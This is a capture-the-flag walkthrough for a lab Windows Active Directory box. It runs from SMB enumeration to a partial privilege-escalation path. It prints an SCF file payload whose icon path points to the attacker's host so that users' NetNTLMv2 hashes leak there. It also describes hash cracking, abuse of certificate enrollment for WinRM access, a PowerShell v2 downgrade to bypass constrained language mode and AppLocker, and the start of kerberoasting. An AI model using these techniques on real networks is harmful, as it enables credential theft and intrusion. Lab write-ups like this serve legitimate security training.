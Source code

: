 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}

After generating and signing the cerificate for amanda SSL authentication, we need to set some variables in WinRM script. 

![source-01](/img/Screenshot_2020.png){: .align-left}


#### Initial Access:
Now we can use WinRM script to Loging as amanda.

![source-01](/img/Screenshot_2020-58.png){: .align-left}

User.txt file is not in amanda folders, there was another user in the system. So we might have to exploit this user to get to administrator.

![source-01](/img/Screenshot_2020-06-22.png){: .align-left}

#### Notes:
+ There is a user called sizzler,krbtgt and milky. This information maybe helpful in our attack.


#### System Enumeration:
Try to upload and run bloodhound to the syste, but it was blocked by powershell constrained deligation, on top of that AppLocker is in place and its blocking everything i throw it. Directly importing powershell script into memory didn't work either.

![source-01](/img/Screenshot2020-06-2211.png){: .align-left}

> PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

#### PowerShell CL and AppLocker Bypass
Lets bypass powershell constrained language mode and AppLocker to run our tools.
It was simple enough to bypass the PowerShell CL using powershell downgrade attack, i used powershell version2 to bypass the CL mode.
> When forcing PowerShell to run using its PowerShell 2.0 engine none of the advanced security features are available, since the older .NET Framework v2.0 is loaded with powershell.

Uploading Powerview for the kerberoas attack

![source-01](/img/Screenshot2020-06-22 160728.png){: .align-left}


SPN- Attack
Getting all the users with SPN, for easy kerberoasting win

![source-01](/img/Screenshot2020-06-22142754.png){: .align-left}

And we can see the user milky have a service principal name, the user is running some service using that account.
















